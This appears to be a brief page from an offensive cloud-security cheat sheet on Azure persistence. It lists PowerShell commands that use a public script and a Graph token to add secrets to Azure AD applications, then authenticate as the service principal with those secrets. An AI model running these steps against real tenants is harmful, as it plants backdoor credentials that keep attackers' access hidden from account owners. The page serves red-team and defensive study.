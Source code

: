 # Azure Persistence

## Add secrets to application

* Add secrets with [lutzenfried/OffensiveCloud/Add-AzADAppSecret.ps1](https://github.com/lutzenfried/OffensiveCloud/blob/main/Azure/Tools/Add-AzADAppSecret.ps1)
    ```powershell
    PS > . C:\Tools\Add-AzADAppSecret.ps1
    PS > Add-AzADAppSecret -GraphToken $graphtoken -Verbose
    ```

* Use secrets to authenticate as Service Principal
    ```ps1
    PS > $password = ConvertTo-SecureString '<SECRET/PASSWORD>' -AsPlainText -Force
    PS > $creds = New-Object System.Management.Automation.PSCredential('<AppID>', $password)
    PS > Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant '<TenantID>'
    ```